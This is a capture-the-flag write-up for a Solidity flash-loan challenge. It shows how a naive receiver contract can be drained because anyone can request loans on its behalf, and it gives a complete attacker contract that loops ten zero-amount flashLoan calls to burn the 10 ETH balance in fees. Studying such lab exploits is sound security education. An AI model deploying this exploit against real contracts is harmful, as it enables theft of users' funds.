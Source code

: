 So, lets see what the challenge is asking us for.

We have to drain the FlashLoanReceiver balance.

The first thing that we have to take a look is how the **flashLoan** function actually works and what issues we find:

```js
    function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
```

The key here is that anyone can call this function (because is marked as external) and ask for a flashLoan for any **borrower** address that we want. But we have a few restrictions about the **borrower**:

- The borrower should be a contract
- The borrower must be able to pay back the loan with the fee
- The borrower must have a receiver function or a fallback payable function
- The borrower must have an external function with the form **receiveEther(uint256)** 

Hopefully, our target fullfills all of this requirements.

Let's take a look to the target contract function **receiveEther** then:

```js
  function receiveEther(uint256 fee) public payable {
      require(msg.sender == pool, "Sender must be pool");

      uint256 amountToBeRepaid = msg.value + fee;

      require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
      
      _executeActionDuringFlashLoan();
      
      // Return funds to pool
      pool.sendValue(amountToBeRepaid);
  }
```

We have a few validations here.

- The sender has to be the pool
- The contract balance must have the required ether amount to pay back the loan

So, we know that the contract balance is 10 ETH. We know that the FIX_FEE for each flash loan call is 1 ETH and what we want to accomplish is drain all the ETH from the receiver balance.

And we want to do it all in a single transaction (extra points are always welcome :)

Let's create an attacker contract and test a few things.

First we are going to create a dummy contract with references to both target contracts, the pool and the receiver:

```js
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.0;

  import "hardhat/console.sol";

  contract NaiveReceiverAttacker {

    address immutable target;
    address immutable pool;

    constructor(address _target, address _pool) {
      target = _target;
      pool = _pool;
    }
  }
```

Now we are going to work on a function attack that we want to call:

We want to call the flashLoan function until the balance of the target is 0.

We know that the contract has 10 ETH, and then each call will consume 1 ETH as fees.

So, what we want is call the flash loan 10 times. Let's create that function:

```js
  function attack() external {
    bool success;
    uint256 targetBalance = address(target).balance;
    for(uint8 i = 0; i < 10; i++) {
      console.log("old targetBalance", targetBalance);
      (success, ) = pool.call(abi.encodeWithSignature("flashLoan(address,uint256)", target, 0));
      require(success, "call failed");
      targetBalance = address(target).balance;
      console.log("new targetBalance", targetBalance);
    }
  }
```


